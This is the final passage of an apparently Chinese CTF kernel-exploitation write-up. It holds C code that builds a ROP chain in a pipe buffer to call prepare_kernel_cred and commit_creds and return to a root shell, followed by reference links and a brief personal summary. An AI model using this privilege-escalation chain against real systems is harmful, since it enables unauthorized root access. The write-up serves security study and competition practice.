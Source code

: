 ```c

    // 0xffffffffa5be3350 FFFFFFFF81C00010 0xffffffffa6600010
    ropchain[0] = pop_rdi_ret + offset;
    ropchain[1] = push_rsi_pop_rsp + offset; // 这是 release 函数
    ropchain[2] = pop_rdi_ret + offset;
    ropchain[3] = 0;
    ropchain[4] = prepare_kernel_cred + offset;
    ropchain[5] = mov_rdi_rax + offset;
    ropchain[6] = commit_creds + offset;
    ropchain[7] = swapgs_ret + offset;
    ropchain[8] = iretq_ret + offset;
    ropchain[9] = (size_t)get_shell;
    ropchain[10] = user_cs;
    ropchain[11] = user_rflags;
    ropchain[12] = user_rsp;
    ropchain[13] = user_ss;
    // 发现情况不一样 把 ropchain 放到 pipe_buf 里面
    pipe_buf[0] = ret + offset;
    pipe_buf[1] = pop_rdi_ret + offset;
    pipe_buf[2] = (size_t)ptr + 0x80; // 这个一定要是 kernel address
    pipe_buf[3] = pop_rdi_ret + offset;
    pipe_buf[4] = 0;
    pipe_buf[5] = prepare_kernel_cred + offset;
    pipe_buf[6] = mov_rdi_rax + offset;
    pipe_buf[7] = commit_creds + offset;
    pipe_buf[8] = swapgs_ret + offset;
    pipe_buf[9] = iretq_ret + offset;
    pipe_buf[10] = (size_t)get_shell;
    pipe_buf[11] = user_cs;
    pipe_buf[12] = user_rflags;
    pipe_buf[13] = user_rsp;
    pipe_buf[14] = user_ss;

    memcpy(pipe_buf + 0x10, ropchain, 120); // 这个实际上是拷贝到 (size_t)pipe_buf + 0x80 的位置了

    write(fd, page, 0x2e0);

    for (int i = 0; i < 50; i++)
    {
        close(pipe_fd[i][0]);
        close(pipe_fd[i][1]);
    }
    return 0;
}
```
## reference
- https://blingblingxuanxuan.github.io/2023/01/10/23-01-10-kernel-pwn-useful-struct/#pipe-buffer
- https://blog.xmcve.com/2024/10/01/SCTF-2024-Writeup/
- https://www.ctfiot.com/207863.html

## 总结
唉，一个简单题复现了好久（日常写代码太磨叽 ggg）   
以及是秋天啦，大家秋天快乐 ~